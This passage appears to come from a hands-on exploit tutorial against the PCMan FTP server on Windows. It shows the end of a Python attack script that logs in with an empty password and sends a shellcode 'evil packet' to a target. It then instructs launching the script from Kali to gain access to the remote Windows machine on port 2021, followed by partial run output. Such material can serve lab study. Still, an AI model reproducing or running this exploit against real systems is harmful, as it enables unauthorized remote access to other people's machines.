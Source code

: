 ```python
print("Empty password")
sleep(1)
socket.send('PASS\r\n')
sleep(1)
print(socket.recv(1024))
try:
    print "Sending evil packet to %s %d (length: %d bytes), please wait a few secs...." % (target, port, len(shellcode))
    socket.send(shellcode)
    sleep(4)
    socket.close()

except:
    print "\nError sending evil packet to %s\n\n%s\n" % (target, exc_info())
    exit(1)


print("\n\nDone! :-)\n")


sleep(1)
```
Ensure PCman is runing on windows machine and launch the script in kali, if everithing is working we shoul have now access to the remote windows machine! look on port 2021.
```sh
└─$ python pcman_dregmod_exploit_two.py                                                                                                      1 ⨯
----------------------------------------
| VUPlayer Exploit v1.0 by Sm@rtR3v0lt |
----------------------------------------
|               thanks to Master Dreg! |
----------------------------------------
SIOCSIFMTU: Operation not permitted

shellcode content (size 2743 bytes):

```